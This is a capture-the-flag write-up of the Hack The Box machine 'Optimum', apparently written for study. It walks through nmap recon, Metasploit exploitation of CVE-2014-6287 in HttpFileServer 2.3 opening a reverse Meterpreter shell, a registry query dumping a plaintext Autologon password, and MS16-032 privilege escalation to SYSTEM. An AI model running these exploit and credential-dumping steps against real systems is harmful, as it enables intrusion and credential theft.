

# Optimum


# Context

Lab link: [https://app.hackthebox.com/machines/Optimum](https://app.hackthebox.com/machines/Optimum)

Suggested tools: `nmap`, `msfconsole`

# Scenario

Optimum is a beginner-level machine which mainly focuses on enumeration of services with known exploits. Both exploits are easy to obtain and have associated Metasploit modules, making this machine fairly simple to complete.

# Questions

Q1- Which version of `HttpFileServer` is running on TCP port `80`?

Answer: `2.3`

Reason: Nmap service scan against `optimum.htb` on port 80 identified `HttpFileServer httpd 2.3`, confirmed via the HTTP server header and page title.

```bash
$ nmap -sC -sV -p- optimum.htb -v -oN nmap.txt  
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-11 10:48 -0500
[...]
Scanning 1 service on optimum.htb (10.129.128.40)
[...]
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-server-header: HFS 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Q2- What is the 2014 CVE ID for a remote code execution vulnerability in the `findMacroMarker` function in `HttpFileServer` 2.3 version?

Answer: CVE-2014-6287

Reason: Searchsploit identified a public exploit for `Rejetto HttpFileServer 2.3.x` (script `49125.py`), which targets `CVE-2014-6287`, a remote command execution flaw in the `findMacroMarker` function caused by improper input sanitization.

```bash
$ searchsploit HttpFileServer 
------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                            | windows/webapps/49125.py
------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

$ cat 49125.py            
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
```

Q3- What user is the webserver running as? Provide the username without the domain.

Answer: `kostas`

Reason: The Metasploit module `exploit/windows/http/rejetto_hfs_exec` was used against `optimum.htb` on port `80`, returning a Meterpreter session. `getuid` confirmed the shell runs as `OPTIMUM\kostas`.

```bash
msf exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.10.17.7
LHOST => 10.10.17.7
msf exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
LPORT => 4444
msf exploit(windows/http/rejetto_hfs_exec) > set RHOSTS optimum.htb
RHOSTS => optimum.htb
msf exploit(windows/http/rejetto_hfs_exec) > set RPORT 80
RPORT => 80
msf exploit(windows/http/rejetto_hfs_exec) > check
[*] 10.129.128.40:80 - The service is running, but could not be validated. Target detected with version: 2.3
msf exploit(windows/http/rejetto_hfs_exec) > run
[*] Started reverse TCP handler on 10.10.17.7:4444 
[*] Using URL: http://10.10.17.7:8080/OR4DYOs
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /OR4DYOs
[*] Sending stage (203450 bytes) to 10.129.128.40
[!] Tried to delete %TEMP%\IpxnJfaBJBM.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.17.7:4444 -> 10.129.128.40:49162) at 2026-11-11 11:22:12 -0500
[*] Server stopped.

meterpreter > getuid 
Server username: OPTIMUM\kostas
```

Q4- User flag

Answer: [REDACTED]

Reason: The `user.txt` flag was read directly from `kostas`'s desktop following the `rejetto_hfs_exec` shell.

```bash
C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is EE82-226D

 Directory of C:\Users\kostas\Desktop

18/11/2026  03:20 ��    <DIR>          .
18/11/2026  03:20 ��    <DIR>          ..
18/11/2026  03:20 ��    <DIR>          %TEMP%
18/03/2017  02:11 ��           760.320 hfs.exe
18/11/2026  02:43 ��                34 user.txt
               2 File(s)        760.354 bytes
               3 Dir(s)   5.629.853.696 bytes free

C:\Users\kostas\Desktop>type user.txt
type user.txt
[...]
```

Q5- Optional question: What is the password for the `kostas` user?

Answer: `kdeEjDowkS*`

Reason: An Autologon credential was found in the `Winlogon` registry key on `optimum.htb`, exposing `kostas`'s plaintext password. An initial read via `reg query` without `/reg:64` failed due to WOW64 registry redirection on the 32-bit shell session; forcing the native 64-bit view resolved it.

```bash
C:\Users\kostas\Desktop>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /reg:64
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /reg:64

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    kdeEjDowkS*
```

Q6- Which Metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?

Answer: `local_exploit_suggester`

Reason: The module `post/multi/recon/local_exploit_suggester` was run against the `kostas` Meterpreter session on `optimum.htb`, checking 267 local exploit modules and flagging several as likely exploitable, including `ms16_032_secondary_logon_handle_privesc` and `cve_2020_0787_bits_arbitrary_file_move`.

Q7- Root flag

Answer: [REDACTED]

Reason: `ms16_032_secondary_logon_handle_privesc` succeeded on a retry, racing a secondary logon handle duplication to obtain a SYSTEM-context Meterpreter session (session 3) on `optimum.htb` despite intermediate PowerShell errors during the token-race path. `root.txt` was read directly from the `Administrator` desktop.

```bash
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run
[*] Started reverse TCP handler on 10.10.17.7:5555 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\JIknbsZNbU.ps1...
[*] Compressing script contents...
[+] Compressed size: 3735
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1608

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $vT_Z = [Ntdll]::NtImpersonateThread($wy, $wy, [ref]$kF)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (kF:VariablePath) [], RuntimeE 
   xception
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "ExistingTokenHandle", with value: "", for "DuplicateTo
ken" to type "System.IntPtr": "Cannot convert null to type "System.IntPtr"."
At line:259 char:2
+     $vT_Z = [Advapi32]::DuplicateToken($vD, 2, [ref]$r3l)
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

HlQl8ob0nyR8dUwSZRXNjWKqFIxL6kqf
[+] Executed on target machine.
[*] Sending stage (203450 bytes) to 10.129.128.40
[*] Meterpreter session 3 opened (10.10.17.7:5555 -> 10.129.128.40:49169) at 2026-11-11 11:53:10 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\JIknbsZNbU.ps1

c:\Users\Administrator\Desktop>type root.txt
type root.txt
[...]
```

# Attack Architecture



# Attack Chain

| Time (EDT) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 10:48 | Recon | nmap -sC -sV -p- identified HttpFileServer httpd 2.3 on port 80 | T1595.002 |
| ~11:00 | Research | Identified CVE-2014-6287 (RCE in findMacroMarker) via searchsploit | T1588.005 |
| 11:22 | Initial Access | exploit/windows/http/rejetto_hfs_exec returned Meterpreter shell as `OPTIMUM\kostas` | T1190 |
| 11:22 | Discovery | Read user.txt from kostas's desktop | T1005 |
| 11:30 | Discovery | whoami /priv, systeminfo showed no useful privileges, Server 2012 R2 build 9600, 31 hotfixes | T1082, T1033 |
| 11:34 | Discovery | local_exploit_suggester flagged ms16_032_secondary_logon_handle_privesc and cve_2020_0787_bits_arbitrary_file_move as candidates | T1068 |
| 11:40 | Credential Access | winPEASx86.exe found plaintext Autologon password for kostas in Winlogon registry key; confirmed via reg query .../reg:64 (first attempt failed due to WOW64 redirection) | T1552.002 |
| 11:53 | Privilege Escalation | ms16_032_secondary_logon_handle_privesc succeeded on retry, token-raced a SYSTEM impersonation token, opened Meterpreter session 3 as SYSTEM | T1068 |
| 11:53 | Impact | Read root.txt from Administrator's desktop | T1005 |

## Attack Tree

```bash
optimum.htb
│
└── Port 80: HttpFileServer 2.3
    │
    └── CVE-2014-6287 (findMacroMarker RCE)
        │
        └── Shell as OPTIMUM\kostas
            │
            ├── user.txt
            │
            ├── Winlogon Autologon registry (WOW64-redirected, needed /reg:64)
            │   └── kostas plaintext password (not required for root)
            │
            └── local_exploit_suggester
                └── ms16_032_secondary_logon_handle_privesc
                    └── SYSTEM shell
                        └── root.txt
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Service | Software/Version | HttpFileServer httpd `2.3` |
| Vulnerability | CVE | `CVE-2014-6287` |
| Exploit Module | Metasploit | `exploit/windows/http/rejetto_hfs_exec` |
| User | Local Account | `kostas` |
| Credential | Autologon Password | `[REDACTED]` (exposed, not needed for root) |
| Registry Key | Autologon | `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` |
| Host | OS | Windows Server 2012 R2 Standard, Build `9600` |
| Recon Module | Metasploit | `post/multi/recon/local_exploit_suggester` |
| Privesc Exploit | Metasploit | `exploit/windows/local/ms16_032_secondary_logon_handle_privesc` |
| Vulnerability | CVE | `CVE-2016-0099` (MS16-032) |
| Flag | user.txt | `[REDACTED]` |
| Flag | root.txt | `[REDACTED]` |

# Lab Insights

1. Unpatched legacy services remain the most reliable initial-access vector. HFS 2.3's findMacroMarker RCE (CVE-2014-6287, T1190) is over a decade old, yet directly granted code execution — version-banner recon should always be checked against known public exploits before deeper enumeration.
2. Local-exploit-suggester output requires patience, not just trust. ms16_032 (T1068) failed identically three times with a Rex::TimeoutError despite a correctly bound handler and a live base session — verifying network/session health before discarding a flagged module avoided wasting effort on an unnecessarily early pivot to a different CVE.
3. Autologon credentials are a textbook unintended-credential-exposure pattern. The Winlogon\DefaultPassword registry value (T1552.002) stored kostas's password in plaintext — a reminder to always check this key on Windows targets even when it isn't the critical path to root.
4. Architecture mismatches between shell and OS silently hide data. A 32-bit shell on 64-bit Windows triggers WOW64 registry redirection, making real HKLM\SOFTWARE values appear "not found" unless explicitly queried with /reg:64 — a lesson applicable well beyond credential hunting.